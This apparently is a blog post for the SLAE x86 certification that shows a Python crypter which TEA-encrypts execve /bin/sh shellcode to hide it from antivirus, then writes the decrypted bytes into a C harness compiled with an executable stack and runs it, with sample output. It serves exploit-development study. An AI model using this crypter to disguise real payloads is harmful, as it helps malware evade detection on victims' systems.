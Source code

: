 ```yaml
---
title:  "SLAE x86 Assignment 7: Crypter Script"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at the last assignment of SLAE x86. Let's dive right in!

## Understanding The Objective ##
So what are crypters? Crypters are tools that can be used to encrypted sets of data, in order to make it hard or nearly impossible for AVs to detect the content of that data. In our case, we will be building a crypter which will help us encrypt our ```execve-stack``` shellcode.

Instead of going with the conventional AES symmetric algorithm, I wanted to try something else. Hence, I will be using the ```PyTEA``` library in Python for this assignment. While this is much simpler, this method has it's own drawbacks. These can be found [here.](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm#Properties) In essence, the Tiny Encryption Algorithm uses a 128 bit key in order to encrypt.

Let's dive right in!

### Crypter Script
So this script basically generates a random key of 16 bytes. Then, encrypts the shellcode, decrypts it, and writes it to the ```shellcode.c``` file. This is then compiled and executed:
```python
#!/usr/bin/python

from pytea import TEA
import os
import binascii
import time

key = os.urandom(16)
print('current key: ', key)
tea = TEA(key)
execve = b"\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"
e = tea.encrypt(execve)
e_hex = binascii.hexlify(e)

print('Encrypted Hex Shellcode: ' +  e_hex)
time.sleep(1)

print('Decrypting And Executing')
time.sleep(1)
decrypted = tea.decrypt(e)

print('Decrypted Shellcode: ' + decrypted)


shellfile = open("shellcode.c", "w")
shellfile.write("""#include<stdio.h>

#include<string.h>

unsigned char code[] = \\
\"""")
shellfile.close()
shellfile = open("shellcode.c", "a")
shellfile.write(decrypted)
shellfile.close()
shellfile = open("shellcode.c", "a")
shellfile.write("""";

main()
{

        printf(\"Shellcode Length:  %d\\n\", strlen(code));

        int (*ret)() = (int(*)())code;
        ret();

}""")

shellfile.close()

os.system("gcc -fno-stack-protector -z execstack shellcode.c -o shellcode && ./shellcode")
```
Alright! let's run this:
```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment7 $ python crypter_tool.py
('current key: ', '\x9a\x1bZ\x7f`\xc3\xbd\xef\xbdli\x81\xe1\x97\x970')
Encrypted Hex Shellcode: efa5ae8b718d117258da58dd315b1402be6903b87b954a336d26d2f551e03b7598b2c0961e95dd2a34b8aeadabb9f96332437bbfe24cdf91bc13cf332ffe44df2a9bc8c861cd4598bd7f6d981c6c293526760d85b769830979b2809144e45a097b62c92049cdd01838e060e9741c7972
Decrypting And Executing
Decrypted Shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
shellcode.c:8:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    8 | main()
      | ^~~~
Shellcode Length:  25
$
```
With this, we are done with all the assignments of SLAE x86! Stay tuned for SLAE x64!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE - 1534
